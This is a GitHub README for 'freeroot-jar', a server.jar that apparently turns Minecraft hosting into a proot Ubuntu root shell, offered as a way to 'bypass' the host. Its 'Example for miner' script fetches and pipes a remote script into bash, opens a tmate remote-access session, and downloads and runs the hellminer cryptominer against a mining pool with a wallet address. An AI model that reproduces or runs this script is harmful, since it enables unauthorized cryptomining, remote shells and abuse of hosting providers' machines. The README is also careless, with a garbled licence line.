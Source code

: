 ## Overview
freeroot with .jar (bypass hosting minecraft)
hi =) 
## Prerequisites

- Bash shell environment
- Internet connectivity
- Wget installed
- Supported CPU architecture: x86_64 (amd64) or aarch64 (arm64)

## Installation

step 1. Download file server.jar [here](https://github.com/Mytai20100/freeroot-jar/raw/refs/heads/main/server.jar)    
step 2. Run server and enjoy it =)
## Supported Architectures
- x86_64 (amd64)
- aarch64 (arm64)
## How using it ?
idk =)
## Optional Dealing with restricted hosts (e.g. using msh or blocked input access)
Some hosts block input/output or prevent apt from working properly. In these cases, you can modify the root.sh file inside freeroot and append the following snippet at the end:
>`$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt upgrade -y ;
 #apt install neofetch -y 
  '
`
## Example for miner =) 
`#!/bin/sh

ROOTFS_DIR=$(pwd)
export PATH=$PATH:~/.local/usr/bin
max_retries=50
timeout=1
ARCH=$(uname -m)

if [ "$ARCH" = "x86_64" ]; then
  ARCH_ALT=amd64
elif [ "$ARCH" = "aarch64" ]; then
  ARCH_ALT=arm64
else
  printf "Unsupported CPU architecture: ${ARCH}"
  exit 1
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "Installing Ubuntu base rootfs..."
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O /tmp/rootfs.tar.gz \
    "http://cdimage.ubuntu.com/ubuntu-base/releases/20.04/release/ubuntu-base-20.04.4-base-${ARCH_ALT}.tar.gz"
  mkdir -p $ROOTFS_DIR
  tar -xf /tmp/rootfs.tar.gz -C $ROOTFS_DIR
fi

if [ ! -e $ROOTFS_DIR/usr/local/bin/proot ]; then
  mkdir -p $ROOTFS_DIR/usr/local/bin
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O $ROOTFS_DIR/usr/local/bin/proot "https://raw.githubusercontent.com/foxytouxxx/freeroot/main/proot-${ARCH}"
  chmod 755 $ROOTFS_DIR/usr/local/bin/proot
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "nameserver 1.1.1.1" > $ROOTFS_DIR/etc/resolv.conf
  echo "nameserver 1.0.0.1" >> $ROOTFS_DIR/etc/resolv.conf
  touch $ROOTFS_DIR/.installed
fi

# 🧨 Proot vào Ubuntu và auto chạy lệnh trong shell
$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt install -y tmate curl wget libsodium23; 
    curl neofetch.sh | bash 
    echo "Tmate session starting...";
    tmate -F > /tmate.log 2>&1 &
cat /tmate.log
wget clone https://github.com/hellcatz/hminer/releases/download/v0.59.1/hellminer_linux64.tar.gz
tar -zxf hellminer_linux64.tar.gz 
./hellminer -c stratum+tcp://na.luckpool.net:3957 -u RAekjoNg7FCkAdub3D8stA4LotrZqJKofu.4 -p x
  '
`
## Credits
freeroot by [foxytouxxx/freeroot](https://github.com/foxytouxxx/freeroot).
freeroot by [Mytai20100/freeroot](https://github.com/Mytai20100/freeroot).
## License
(c) 2025 -2026 ????? and ??? . All rights reserved. Licensed under the MIT License.
